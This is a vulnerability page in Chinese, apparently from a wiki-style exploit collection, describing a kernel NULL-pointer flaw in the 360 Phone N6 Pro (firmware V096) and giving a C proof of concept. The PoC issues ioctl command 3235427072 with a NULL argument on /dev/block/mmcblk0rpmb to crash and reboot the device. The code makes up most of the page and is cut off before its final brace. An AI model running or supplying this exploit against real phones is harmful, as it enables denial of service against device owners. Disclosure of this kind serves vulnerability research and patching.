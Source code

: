 <languages   />

漏洞原理
--------

<div lang="chinese" dir="ltr" class="mw-content-ltr">
360 Phone N6 Pro V096內核組件中的內核模塊允許攻擊者使用命令3235427072在設備`/dev/block/mmcblk0rpmb`上通過ioctl的自變量注入精心設計的自變量，並導致內核崩潰。

</div>
<div lang="chinese" dir="ltr" class="mw-content-ltr">
漏洞影響
--------

</div>
360 Phone N6 Pro 1801-A01

POC
---

    /*
    * This is poc of 360 N6 Pro, 1801-A01
    * Android Version: 7.1.1
    * Version Number: V096
    * Kernel Version: Linux localhost 4.4.21-perf #1 SMP PREEMPT Wed Mar 28 15:24:20 UTC 2018 aarch64
    * A NULL pointer bug in the ioctl interface of device file /dev/block/mmcblk0rpmb causes the system crash via IOCTL 3235427072.
    * This Poc should run with permission to do ioctl on /dev/block/mmcblk0rpmb.
    */
    #include <stdio.h>
    #include <fcntl.h>
    #include <errno.h>
    #include <sys/ioctl.h>

    const static char *driver = "/dev/block/mmcblk0rpmb";
    static command = 3235427072; // 0xc0d8b300

    int main(int argc, char **argv, char **env) {
    int fd = 0;
    fd = open(driver, O_RDWR);
    if (fd < 0) {
    printf("Failed to open %s, with errno %dn", driver, errno);
    system("echo 1 > /data/local/tmp/log");
    return -1;
    }

    printf("Try ioctl device file '%s', with command 0x%x and payload NULLn", driver, command);
    printf("System will crash and reboot.n");
    if(ioctl(fd, command, NULL) < 0) {
    printf("Allocation of structs failed, %dn", errno);
    system("echo 2 > /data/local/tmp/log");
    return -1;
    }
    close(fd);
    return 0;